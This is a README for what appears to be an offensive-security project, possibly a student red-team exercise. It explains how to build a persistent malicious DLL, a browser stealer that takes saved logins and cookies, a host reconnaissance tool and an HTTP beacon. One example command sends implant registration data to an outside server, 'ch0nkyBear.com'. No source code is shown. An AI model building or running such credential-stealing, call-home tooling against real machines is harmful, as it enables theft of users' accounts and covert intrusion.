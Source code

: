 # README

## To Compile the Malicious DLL

* Go to: reflectivedll> realDLL folder
* Run make to compile the DLL
* In the Command line, run .\testmDll.exe maliciousdll.dll

* The Malicious DLL currently checks for the Chonky.txt file and is Persistent.
* It does NOT currently include the communicationfuncs.cpp and .h files because it would cause errors

## To display Browser Information - Stealer Functionality

* Go to: reflectivedll> realDLL folder
* Run make and then make run

![image](https://user-images.githubusercontent.com/42654496/146636733-2d760b85-ad8d-410a-9b82-33b12e30980f.png)

* Steals Login Data(username and password) and Cookies from the system and displays to console

![image](https://user-images.githubusercontent.com/42654496/146636649-532a38a9-7822-4afa-bade-81098a8bed3b.png)

## To get Situational Awareness info

* Go to: reflectivedll> TestingFeatures> getInfo folder
* Run make to build the infoTest executable
* In the command line, run .\infoTest.exe 

* This executable will print out the data of the current machine
* It is currently not a feature of the dll

## To make an HTTP Request to the Server

* Go to: reflectivedll> TestingFeatures > http folder
* Run make to build the http executable
* In the command line, run .\http.exe fqdn port uri useTLS payload payloadLength
* The payload should be a hex string that (before converted to hex), is in the format "guid=implantTest&username=TestUser&=computername=TestComputer\r\n"
* EX: .\http.exe ch0nkyBear.com 443 /register 1 "23478y9hfj874" 13

* Currently: Issues handling payloads on the server side
* testInfo.cpp is a file that includes example hex encoded payloads to try out
